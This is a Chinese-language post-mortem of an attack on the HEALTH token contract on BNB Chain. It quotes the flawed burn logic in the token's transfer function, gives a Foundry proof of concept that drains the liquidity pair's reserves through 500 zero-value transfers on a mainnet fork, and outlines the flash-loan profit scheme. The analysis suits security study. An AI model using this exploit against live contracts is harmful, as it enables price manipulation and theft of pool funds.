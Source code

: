 # HealthToken 攻击案例分析


HEALTH Token 攻击案例分析

<!--more-->

## 漏洞分析

攻击 tx: https://bscscan.com/tx/0xae8ca9dc8258ae32899fe641985739c3fa53ab1f603973ac74b424e165c66ccf

被攻击合约: [0x32B166e082993Af6598a89397E82e123ca44e74E](https://bscscan.com/address/0x32B166e082993Af6598a89397E82e123ca44e74E) 

合约中的`_transfer`函数如下:

```solidity
    function _transfer(address from, address to, uint256 value) private {
        require(value <= _balances[from]);
        require(to != address(0));
        
        uint256 contractTokenBalance = balanceOf(address(this));

        bool overMinTokenBalance = contractTokenBalance >= numTokensSellToAddToLiquidity;
        if (
            overMinTokenBalance &&
            !inSwapAndLiquify &&
            to == uniswapV2Pair &&
            swapAndLiquifyEnabled
        ) {
            contractTokenBalance = numTokensSellToAddToLiquidity;
            //add liquidity
            swapAndLiquify(contractTokenBalance);
        }
        if (block.timestamp >= pairStartTime.add(jgTime) && pairStartTime != 0) {
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
        }
        uint256 devValue = value.mul(devFee).div(1000);
        uint256 bValue = value.mul(bFee).div(1000);
        uint256 newValue = value.sub(devValue).sub(bValue);
        _balances[from] = _balances[from].sub(value);
        _balances[to] = _balances[to].add(newValue);
        _balances[address(this)] = _balances[address(this)].add(devValue);
        _balances[_burnAddress] = _balances[_burnAddress].add(bValue);
        
        emit Transfer(from,to, newValue);
        emit Transfer(from,address(this), devValue);
        emit Transfer(from,_burnAddress, bValue);
    }
```

其中有一段逻辑是: 每进行一笔转账,就会销毁掉一部分token, 也就是将uniswapV2Pair的余额减去一部分,将_burnAddress的余额增加一部分.

```solidity
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
```

但是销毁的量并没有依据transfer时的value进行计算, 而是根据`_balances[uniswapV2Pair].mul(burnFee).div(1000)`进行计算的, 假如`burnFee`是`1`, 那么任意数量的转账都会销毁uniswapV2Pair余额的千分之一, 哪怕转账数量是0.

这就导致了一个严重的bug: 重复进行`value`为0的转账, 用户手中的币并不会减少, 但`uniswapV2Pair`的余额却在不断减少, 这就导致了 pair 中 token0 (WBNB) 与 token1(HEALTH token)的比率不断变化, 也就是相比于WBNB, HEALTH token的价格越来越高. 这就形成了价格操纵.



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function decimals() external view returns (uint8);

    function symbol() external view returns (string memory);

    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

interface IPancakePair {
    function token0() external view returns (address);

    function token1() external view returns (address);

    function getReserves()
        external
        view
        returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
}

IERC20 constant HealthToken = IERC20(
    0x32B166e082993Af6598a89397E82e123ca44e74E
);

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

IPancakePair constant pancakePair = IPancakePair(
    0xF375709DbdE84D800642168c2e8bA751368e8D32
);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22337400); //bsc
    }

    function testPoc() public {
        console2.log("token0 is:", IERC20(pancakePair.token0()).symbol());
        console2.log("token1 is:", IERC20(pancakePair.token1()).symbol());

        (uint112 token0, uint112 token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[before]token0",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[before]token1",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );

        // 连续0转账500次
        for (uint i = 0; i < 500; i++) {
            HealthToken.transfer(address(this), 0);
        }

        (token0, token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[after]token0 ",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[after]token1 ",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );
    }
}

```

输出:

```sh
[PASS] testPoc() (gas: 11524943)
Logs:
  token0 is: HEALTH
  token1 is: WBNB
  [before]token0: 62563539.073327292627431307
  [before]token1: 38.502835300011026965
  [after]token0 : 37937212.810065723981756912
  [after]token1 : 38.502835300011026965
```

以循环500次为例, pair中的HEALTH token数量减少了接近一半, 也就是价格涨了接近一半.

在实际攻击中, 攻击者先利用闪电贷贷款了WBNB, 然后用WBNB swap了一些 HEALTH, 然后操作价格, 再高价将手中的HEALTH通过swap卖出而获利.


